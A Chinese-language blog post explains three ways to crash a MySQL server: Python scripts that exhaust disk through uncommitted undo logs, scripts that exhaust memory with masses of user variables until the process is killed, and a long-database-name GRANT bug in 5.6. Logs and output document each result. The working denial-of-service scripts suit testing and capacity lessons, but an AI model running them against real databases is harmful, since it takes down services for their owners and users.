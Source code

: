 ```yaml
---
layout: post
title: "如何搞挂MySQL"
description: ""
category: 数据库
tags: [MySQL]
---
```



本文将介绍三种搞挂MySQL的方式，逗大家一乐，感兴趣的同学可以找一个MySQL实例进行测试。三种方式分别是：1）产生大量undo日志撑满磁盘空间导致MySQL不可用；2）定义大量用户变量耗尽MySQL的内存；3）触发MySQL的bug。

**声明：**  这里介绍的三种方式可以搞挂目前大多数的线上MySQL实例，所以，测试请谨慎，如果不是自己的示例，请在测试环境进行实验。


# 1. 产生大量的undo日志

众所周知，InnoDB是一个支持MVCC的存储引擎，为了支持MVCC，InnoDB需要保存undo日志，以便对用户提供记录的历史版本。

那么，如果我们反复地更新一条记录而不提交，将会产生大量的undo日志，使得磁盘空间爆满，导致MySQL不可用。

在innodb现有的实现中，并没有对单个用户或单个连接使用的undo空间进行限制。也就是说，我们只需要反复更新一条记录，而不提交，就会产生大量undo日志，由于我们的事务没有提交，undo日志不能被回收，从而使得磁盘空间被耗尽，最终导致MySQL挂掉。

Jeremy Cole老早就提到过这个[问题][1]，不过该问题至今还存在。要进行该项测试，只需要有更新记录的权限即可。测试脚本如下：

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    import pymysql
    import random
    import string
    
    def get_conn():
        return pymysql.connect(user='lmx', password='123456', port=3306, host='127.0.0.1', db='test')
    
    def update_data(n):
        with get_conn() as cursor:
            for i in xrange(n):
                data =  "".join(random.sample(list(string.letters + string.digits), 60)) * 5
                cursor.execute( "update test set val = '{0}'".format(data))
    
    def main():
        print update_data(9900000000)
    
    if __name__ == '__main__':
        main()

测试过程中，可以观察磁盘空间的使用率，一直在上升：

    /dev/vdb         30G  7.7G   23G  26% /ebs
    /dev/vdb         30G   25G  5.4G  83% /ebs
    /dev/vdb         30G   30G   28K 100% /ebs

磁盘空间满以后，再执行SQL语句就报错了，错误信息如下：

    mysql> create table t2(id int);
    ERROR 3 (HY000): Error writing file './test/t2.frm' (Errcode: 28 - No space left on device)

错误日志如下：

    2016-03-31 12:03:07 7f9298f97700 InnoDB: Error: Write to file ./ibdata1 failed at offset 10415505408.
    InnoDB: 1048576 bytes should have been written, only -1 were written.
    InnoDB: Operating system error number 28.
    InnoDB: Check that your OS and file system support files of this size.
    InnoDB: Check also that the disk is not full or a disk quota exceeded.
    InnoDB: Error number 28 means 'No space left on device'.
    InnoDB: Some operating system error numbers are described at
    InnoDB: http://dev.mysql.com/doc/refman/5.6/en/operating-system-error-codes.html

可以看到，虽然MySQL进程还存在，其实服务已经不可用了。事务在执行过程中，会产生undo日志以及binlog日志，占用磁盘空间，如果我们在线上执行一个大事务，就需要留意是否有可能因为undo和binlog导致磁盘空间爆满的情况，为了规避风险，我们还是应该尽可能的避免特别大的事务。

# 2. 定义大量的变量

上面的例子并没有真的让MySQL进程挂掉，而且需要对数据库具有写的权限。你可能不服，那么，我们再来看一个情况————定义大量的变量。

这种方式将会导致MySQL占用的内存急剧上涨，最后被操作系统kill掉。而且，只需要有登录数据库的权限即可。

想想之前[姜老师][4]搞了一个线上写SQL的比赛，这种方式就可以轻易地将姜老师的数据库搞垮了。

测试脚本如下：


    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    import pymysql
    import random
    import string
    
    def get_conn():
        return pymysql.connect(user='lmx', password='123456', port=3306, host='127.0.0.1')
    
    def set_variables(n):
        with get_conn() as cursor:
            for i in xrange(n):
                data =  "".join(random.sample(list(string.letters + string.digits), 60)) * 50
                cursor.execute( "set @var{0} = '{1}'".format(i, data))
    
    def main():
        print set_variables(9900000000)
    
    if __name__ == '__main__':
        main()

我们不断的定义用户变量，可以通过pidstat观察MySQL占用的内存：

        pidstat 2 -r -p 6879
 
        10:50:48 AM      6879   3683.08      0.00 2450176 1089808  52.87  mysqld
        10:50:50 AM      6879   3822.00      0.00 2480768 1120168  54.34  mysqld
        10:50:52 AM      6879   3252.24      0.00 2506904 1146304  55.61  mysqld
        10:50:54 AM      6879   4065.83      0.00 2539276 1178776  57.19  mysqld
        10:50:56 AM      6879   3436.32      0.00 2566900 1206496  58.53  mysqld
        10:50:58 AM      6879   3570.85      0.00 2595312 1234744  59.90  mysqld
        10:51:00 AM      6879   4379.00      0.00 2630356 1269856  61.60  mysqld
        10:51:02 AM      6879   2982.09      0.00 2654316 1293880  62.77  mysqld
        10:51:04 AM      6879   3836.00      0.00 2685004 1324504  64.26  mysqld
        10:51:06 AM      6879   3147.00      0.00 2710152 1349584  65.47  mysqld
        10:51:08 AM      6879   3997.50      0.00 2742132 1381528  67.02  mysqld
        10:51:10 AM      6879   4127.14      0.00 2775000 1414720  68.63  mysqld
        10:51:12 AM      6879   3382.00      0.00 2802024 1441644  69.94  mysqld
        10:51:14 AM      6879   4285.57      0.00 2836480 1476288  71.62  mysqld
        10:51:16 AM      6879   3529.50      0.00 2864692 1504544  72.99  mysqld
        10:51:18 AM      6879   3573.13      0.00 2893400 1533260  74.38  mysqld
        10:51:20 AM      6879   3694.97      0.00 2922804 1562828  75.82  mysqld
        10:51:22 AM      6879   3738.50      0.00 2952704 1592860  77.27  mysqld
        10:51:24 AM      6879   3825.00      0.00 2983296 1623484  78.76  mysqld
        10:51:26 AM      6879   3082.00      0.00 3006660 1646792  79.89  mysqld
        10:51:28 AM      6879   3961.00      0.00 3038340 1678464  81.43  mysqld

可以看到，MySQL占用的内存越来越大，最后，MySQL进程不在了。通过dmesg可以看到，是由于MySQL占用内存太多，被操作系统kill掉:

    dmesg
    [ 2859.949210] Out of memory: Kill process 6879 (mysqld) score 927 or sacrifice child
    [ 2859.950665] Killed process 6879 (mysqld) total-vm:4125200kB, anon-rss:1905488kB, file-rss:0kB

# 3. 触发MySQL的bug

可以说，写MySQL的都是一群科学家，而且，由于MySQL使用如此广泛，遇到MySQL的bug的情况应该不容易，不过，也不是没有的。如果看MySQL的release note，每次的新版本都会修复无数的bug。

这里，我们来测试一下MySQL的bug。之所以选择这个bug，是因为该bug复现起来太容易了，只需要执行一条SQL语句即可。

在使用grant授权时，如果使用了一个很长的数据库名，将导致MySQL挂掉。如下所示：
![mysql_bug.png-9kB][2]

很明显，该问题是由于缓冲区溢出导致，这也是我们编程中容易犯的一个错误。这个bug在MySQL 5.7中已经修复，我在我们的线上环境（5.6.19）中进行测试，MySQL立马挂掉，简直是搞挂MySQL的最快方式。

[1]:http://blog.jcole.us/2014/04/16/a-little-fun-with-innodb-multi-versioning/
[2]: http://static.zybuluo.com/lmx07/kdo79hs5tuo8darmczujxmiv/mysql_bug.png
[4]: http://www.innomysql.net
